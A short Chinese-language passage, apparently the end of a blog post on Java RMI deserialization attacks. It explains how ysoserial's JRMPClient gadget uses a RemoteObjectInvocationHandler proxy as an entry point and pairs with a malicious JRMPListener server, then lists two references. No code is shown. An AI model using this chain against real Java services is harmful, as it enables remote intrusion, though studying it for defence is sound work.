`ysoserial`使用`RemoteObjectInvocationHandler`的代理类作为反序列化的入口点, 相当于是`UnicastRef`的延长链. 这部分对应的就是`ysoserial.payloads.JRMPClient`这个`gadget`, 恶意服务端可以结合`ysoserial.exploit.JRMPListener`来使用.

# 参考
- [Java RMI 攻击由浅入深](https://su18.org/post/rmi-attack/)

- [Java 安全-RMI-学习总结](https://paper.seebug.org/1251/#java-rmi-)